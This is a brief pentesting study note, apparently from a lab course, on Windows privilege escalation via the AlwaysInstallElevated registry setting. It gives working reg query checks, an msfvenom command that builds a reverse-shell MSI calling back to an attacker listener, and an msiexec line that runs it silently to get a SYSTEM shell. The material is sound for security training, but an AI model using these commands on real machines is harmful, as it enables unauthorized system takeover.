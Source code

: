 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
  - RegistryVulnerabilitiesAndTokens
---
```

[Windows Local Privilege Escalation - Registry (AlwaysInstallElevated) - YouTube](https://www.youtube.com/watch?v=9LpsofQN_ao&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=8)

[Domain Seizure](https://raidforums.com/misc.php?action=safelinks&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fwindows%2Fwindows-local-privilege-escalation%23alwaysinstallelevated)



1. Query the registry for AlwaysInstallElevated keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> [!NOTE]
> Both keys are set to 1 (0x1).

2. On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

3. Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
4. Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```